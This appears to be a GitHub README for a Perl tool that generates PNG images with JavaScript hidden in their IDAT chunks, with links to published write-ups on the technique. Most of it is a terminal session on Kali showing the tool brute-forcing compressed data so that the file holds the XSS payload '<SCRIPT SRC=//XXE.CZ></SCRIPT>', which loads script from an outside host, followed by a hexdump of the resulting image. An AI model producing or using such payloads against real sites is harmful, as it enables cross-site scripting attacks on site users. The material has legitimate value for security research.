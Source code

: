 # PNG-IDAT-chunks ~ payload generator

Simple tool to generate malicious PNG images containing JavaScript code in IDAT chunks

#### Description

Revisiting XSS payloads in PNG IDAT chunks

https://www.adamlogue.com/revisiting-xss-payloads-in-png-idat-chunks/

An XSS on Facebook via PNGs & Wonky Content Types

https://whitton.io/articles/xss-on-facebook-via-png-content-types/

Encoding Web Shells in PNG IDAT chunks

https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

Bug-hunter's Sorrow

http://www.slideshare.net/masatokinugawa/avtokyo-bug-hunters-sorrow-en

#### Example

https://www.youtube.com/watch?v=x53cPkEKmw8
```
root@kali:~/png# perl png_chunks.pl 

[ PNG IDAT chunks ~ payload generator ]

[?] Usage: perl png_chunks.pl -domain xxe.cz -output xss.png
[?] More info: perl png_chunks.pl -help

root@kali:~/png# perl png_chunks.pl -domain xxe.cz -output xss.png

[ PNG IDAT chunks ~ payload generator ]

[i] Starting GZDeflate bruteforce
[i] Domain: xxe.cz
[i] Payload: <SCRIPT SRC=//XXE.CZ></SCRIPT>
[i] It will take some time ~ please wait :)

[i] Bruteforcing tld
[!] TLD successfully bruteforced

[i] Bruteforcing domain
[!] Third character bruteforced ~ e
[!] Second character bruteforced ~ x
[!] First character bruteforced ~ x

[i] Trying to apply PNG filters

[i] PNG filters done
[i] Generating output file

[!] PNG with payload successfully generated
[!] Hex payload: 0000f399281922111510691928276e6e5313241e681b1f576e69b16375535b6f0000
[i] File saved to: xss.png

root@kali:~/png# hexdump -c xss.png 
0000000 211   P   N   G  \r  \n 032  \n  \0  \0  \0  \r   I   H   D   R
0000010  \0  \0  \0      \0  \0  \0      \b 002  \0  \0  \0   � 030   �
0000020   �  \0  \0  \0  \t   p   H   Y   s  \0  \0 016   �  \0  \0 016
0000030   � 001 225   + 016 033  \0  \0  \0   g   I   D   A   T   H 211
0000040   c   d   `   �   <   S   C   R   I   P   T       S   R   C   =
0000050   /   /   X   X   E   .   C   Z   >   <   /   s   c   r   i   p
0000060   t   > 003   C   T 223   �   L 215   �   W   � 236   � 031   �
0000070 212   �   � 227 207   �   �   [   �   � 236   �   �   q   u   L
0000080 220   �  \r   b 021   �   �   �   �   �   r 206   Q   0  \n   F
0000090   �   ( 030 005   �   ` 024 214 202   Q   0  \n   F   � 220  \a
00000a0  \0   : 227 033 002   �   |   4   %  \0  \0  \0  \0   I   E   N
00000b0   D   �   B   ` 202                                            
00000b5
root@kali:~/png#
```
